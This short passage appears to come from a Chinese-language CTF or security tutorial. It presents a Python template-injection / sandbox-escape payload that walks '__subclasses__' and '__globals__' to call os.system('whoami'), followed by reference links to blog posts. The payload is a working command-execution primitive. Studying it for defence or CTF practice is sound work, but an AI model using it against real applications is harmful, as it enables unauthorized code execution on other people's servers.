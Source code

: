 于是我们的payload就出来了

```
"".__class__.__base__.__subclasses__()[133].__init__.__globals__['system']('whoami')
```

## 参考

https://www.cnblogs.com/bmjoker/p/13508538.html

https://blog.csdn.net/qq_38154820/article/details/111399386

https://blog.csdn.net/weixin_61956136/article/details/126076747

https://blog.csdn.net/soldi_er/article/details/116293934

http://www.itfaba.com/jishufenxian/45239.html

